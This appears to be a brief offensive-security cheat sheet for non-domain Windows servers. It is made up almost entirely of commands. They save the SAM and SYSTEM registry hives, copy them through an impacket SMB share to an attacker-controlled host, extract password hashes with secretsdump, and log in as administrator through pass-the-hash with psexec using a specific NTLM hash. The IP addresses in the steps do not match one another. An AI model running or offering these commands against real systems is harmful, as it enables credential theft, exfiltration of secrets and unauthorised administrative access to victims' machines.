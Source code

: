
<font color=yellow>(only for non-AD servers)</font> ??

on windows machine:
`reg save hklm\system .\system.hive`
`reg save hklm\sam .\sam.hive`

on attacker machine:
`sudo impacket-smbserver -smb2support -username user -password password myshare ../dirname`

on windows machine:
`net use \\10.10.15.2\myshare /USER:user password`
`copy sam.hive \\10.18.21.236\myshare`
`copy system.hive \\10.18.21.236\myshare`

on attacker machine:
`impacket-secretsdump -sam sam.hive -system system.hive LOCAL`
`impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:8f81ee5558e2d1205a84d07b0e3b34f5 administrator@10.10.62.147`
